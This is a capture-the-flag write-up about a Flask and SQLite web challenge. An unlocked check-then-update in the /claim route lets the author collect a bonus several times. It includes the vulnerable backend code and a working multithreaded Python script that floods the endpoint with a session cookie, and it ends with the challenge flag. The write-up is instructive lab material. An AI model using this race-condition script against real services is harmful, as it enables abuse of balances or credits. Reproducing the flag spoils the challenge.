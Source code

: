 ![image](https://github.com/user-attachments/assets/aed90ea8-d1de-4a71-a972-cdef13c48e7c)

## How the app works:
![image](https://github.com/user-attachments/assets/208f501c-21f0-45d4-ac6f-cd03939f0cf3) ![image](https://github.com/user-attachments/assets/b00a16b4-bfd9-4f8e-9f33-a536c6309b4e)

```js
/register - New user with 1000 balance. 
/claim - +1000 bonus (1 per user). 
/buy_flag - Need 3000 balance for flag
```

## What Actually Happened (My Mistake Story):
Okay so at first  I thought this challenge was something about token or session attack. 
I spent like 5-10 minutes trying to look at the session cookie  maybe it’s something like JWT, or weak secret key, or something I could decode. 
But turns out... 
```
Flask uses os.urandom(16) for app.secret_key
```
which is random and basically impossible to guess unless you control the server. 
My mistake la G I should’ve just read the backend code properly from the start.

## What I Found After Reading the Backend
After checking the source code  I saw something interesting in the /claim route.
```js
cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
row = cur.fetchone()
if row and row['claimed']:
    flash("You have already claimed your daily bonus!", "danger")
    return redirect(url_for('dashboard'))

db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
db.commit()
```
At first glance, I was like looks okay…
But if you search online or check basic references about Race Condition on database 
especially for Flask + SQLite  you’ll find that this pattern can be risky if the database doesn’t have locking mechanism or transaction isolation.
Reference example: https://portswigger.net/web-security/race-conditions
Here’s another way to do this via burp: https://medium.com/@mahakjaiswani888/race-condition-vulnerability-f92de47aa55c

## Why This Can Be Exploited?
Since the code checks if claimed=1 first  then only after that it updates the balance and sets claimed=1
there is a small window where I can spam multiple requests fast enough before the server saves claimed=1 to the database.
SQLite doesn’t handle this by default unless you use special locking or transaction isolation which this code doesn’t have.

## Exploit Steps
![image](https://github.com/user-attachments/assets/9a8a59c0-af40-4ced-ae57-3609dd62ba26)

•	Register new account - get 1000 balance.

•	Don’t claim the daily bonus 

•	Spam /claim fast using Python multithreading. (Again, we need UNCOLLECTED DAILY BONUS jwt-token for this!)

![image](https://github.com/user-attachments/assets/548cf9f5-cbdf-4f72-83bd-3e253a1fb87e)
Here’s the cracker.py :
```python
import threading
import requests

# Replace these with your target URL and session cookie
BASE_URL = "http://159.69.219.192:7859"
SESSION_COOKIE = "UNCLAIMED DAILY USER TOKEN"

def claim_bonus():
    headers = {"Cookie": f"session={SESSION_COOKIE}"}
    response = requests.post(f"{BASE_URL}/claim", headers=headers)
    print(response.text)

# Create multiple threads to exploit the race condition
threads = []
for _ in range(10):  # Adjust the number of threads as needed
    thread = threading.Thread(target=claim_bonus)
    threads.append(thread)
    thread.start()

# Wait for all threads to complete
for thread in threads:
    thread.join()

print("Exploit completed. Check your balance on /dashboard.")
```
![image](https://github.com/user-attachments/assets/c81b0931-82d7-4a63-8d45-f8c946108e78)

•	Simply refresh our web and finally, redeem flag at */buy_flag.*

![image](https://github.com/user-attachments/assets/e8a40c47-8adc-4b48-b733-e158c6f8de4c) ![image](https://github.com/user-attachments/assets/bf280620-443a-4ca8-b9aa-e4cb008bedd7)

•	And here’s the flag!! 
UMCS{th3_s0lut10n_1s_pr3tty_str41ghtf0rw4rd_too!}

